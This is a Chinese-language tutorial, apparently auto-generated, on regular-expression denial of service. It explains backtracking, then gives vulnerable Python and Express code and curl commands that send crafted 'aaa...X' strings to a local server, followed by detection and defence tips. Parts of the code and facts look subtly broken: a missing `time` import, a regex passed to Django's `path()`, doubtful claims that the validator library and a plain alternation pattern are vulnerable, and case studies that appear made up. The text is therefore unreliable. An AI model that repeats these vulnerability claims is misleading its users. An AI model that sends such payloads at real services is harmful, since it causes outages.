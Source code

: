 # 正则表达式DoS攻击检测的案例分析

## 1. 技术原理解析

### 1.1 正则表达式DoS攻击概述
正则表达式DoS（ReDoS, Regular Expression Denial of Service）攻击是一种通过构造特定的输入字符串，使得正则表达式引擎在处理时进入指数级或多项式级的复杂匹配过程，从而导致系统资源耗尽、服务响应缓慢甚至崩溃的攻击方式。

### 1.2 底层实现机制
正则表达式引擎通常采用NFA（非确定性有限自动机）或DFA（确定性有限自动机）来实现匹配。NFA引擎在匹配时可能会进行大量的回溯操作，尤其是在处理含有嵌套量词（如`(a+)+`）的正则表达式时，容易导致性能问题。

#### 1.2.1 回溯机制
回溯是NFA引擎在匹配失败时尝试其他路径的过程。例如，对于正则表达式`(a+)+`和输入字符串`"aaaaX"`，引擎会尝试所有可能的`a`的组合，直到发现无法匹配`X`，从而导致大量的回溯操作。

#### 1.2.2 复杂度分析
正则表达式的复杂度可以通过其匹配时间的最坏情况来衡量。例如，正则表达式`(a+)+`的最坏情况时间复杂度为O(2^n)，其中n是输入字符串的长度。这种指数级的复杂度使得输入字符串长度增加时，匹配时间急剧上升。

### 1.3 变种和高级利用技巧

#### 1.3.1 嵌套量词
嵌套量词是ReDoS攻击的常见来源。例如，`(a+)+`、`(a*)*`等正则表达式在处理特定输入时会导致大量的回溯。

#### 1.3.2 重叠匹配
某些正则表达式在处理重叠匹配时也会导致性能问题。例如，正则表达式`(a|aa)*`在处理`"aaaa"`时，引擎会尝试所有可能的匹配组合，导致大量的回溯。

#### 1.3.3 复杂分组
复杂的分组和引用也会增加正则表达式的复杂度。例如，正则表达式`(a|b|c|d|e|f|g|h|i|j|k|l|m|n|o|p|q|r|s|t|u|v|w|x|y|z)+`在处理长字符串时，会导致大量的组合尝试。

## 2. 攻击步骤和实验环境搭建指南

### 2.1 实验环境搭建

#### 2.1.1 工具准备
- **Python**: 用于编写和测试正则表达式。
- **Node.js**: 用于模拟Web应用中的正则表达式处理。
- **Docker**: 用于快速搭建实验环境。

#### 2.1.2 环境搭建
1. **安装Python**:
   ```bash
   sudo apt-get install python3
   ```
2. **安装Node.js**:
   ```bash
   sudo apt-get install nodejs npm
   ```
3. **安装Docker**:
   ```bash
   sudo apt-get install docker.io
   ```

### 2.2 攻击步骤

#### 2.2.1 编写易受攻击的正则表达式
```python
import re

# 易受攻击的正则表达式
pattern = r'^(a+)+$'
input_string = 'a' * 100 + 'X'  # 构造恶意输入

# 匹配测试
start_time = time.time()
re.match(pattern, input_string)
end_time = time.time()
print(f"匹配时间: {end_time - start_time}秒")
```

#### 2.2.2 模拟Web应用中的ReDoS
```javascript
const express = require('express');
const app = express();

app.get('/check', (req, res) => {
    const input = req.query.input;
    const pattern = /^(a+)+$/;
    const result = pattern.test(input);
    res.send(result ? '匹配成功' : '匹配失败');
});

app.listen(3000, () => {
    console.log('服务器运行在 http://localhost:3000');
});
```

#### 2.2.3 发起攻击
使用`curl`命令向Web应用发送恶意输入：
```bash
curl "http://localhost:3000/check?input=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaX"
```

### 2.3 检测和防御

#### 2.3.1 检测工具
- **regexploit**: 用于检测易受ReDoS攻击的正则表达式。
  ```bash
  pip install regexploit
  regexploit '^(a+)+$'
  ```

#### 2.3.2 防御措施
- **限制输入长度**: 对用户输入的长度进行限制，防止过长的输入导致性能问题。
- **使用DFA引擎**: DFA引擎在处理正则表达式时不会进行回溯，因此可以避免ReDoS攻击。
- **优化正则表达式**: 避免使用嵌套量词和复杂的匹配模式，减少回溯的可能性。

## 3. 实际案例分析

### 3.1 案例1: Django框架中的ReDoS漏洞
在Django框架的URL路由系统中，某些正则表达式在处理特定输入时会导致ReDoS攻击。例如，正则表达式`^(\w+)+$`在处理包含大量重复字符的URL时，会导致大量的回溯操作。

#### 3.1.1 漏洞复现
```python
from django.urls import path
from django.http import HttpResponse

def vulnerable_view(request):
    return HttpResponse('Vulnerable View')

urlpatterns = [
    path(r'^(\w+)+$', vulnerable_view),
]
```

#### 3.1.2 攻击步骤
使用`curl`命令向Django应用发送恶意输入：
```bash
curl "http://localhost:8000/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaX"
```

### 3.2 案例2: Node.js中的ReDoS漏洞
在Node.js的`validator`库中，某些正则表达式在处理特定输入时会导致ReDoS攻击。例如，正则表达式`^([a-zA-Z0-9]+)+$`在处理包含大量重复字符的字符串时，会导致大量的回溯操作。

#### 3.2.1 漏洞复现
```javascript
const validator = require('validator');

const input = 'a'.repeat(100) + 'X';
const result = validator.isAlphanumeric(input);
console.log(result);
```

#### 3.2.2 攻击步骤
使用`node`命令执行上述代码，观察匹配时间。

## 4. 总结
正则表达式DoS攻击是一种常见的Web安全漏洞，通过构造特定的输入字符串，攻击者可以导致正则表达式引擎进入复杂的匹配过程，从而耗尽系统资源。通过深入理解正则表达式的底层实现机制，掌握各种变种和高级利用技巧，可以有效检测和防御ReDoS攻击。在实际应用中，应避免使用易受攻击的正则表达式，并采取相应的防御措施，确保系统的安全性和稳定性。

---

*文档生成时间: 2025-03-11 17:26:27*
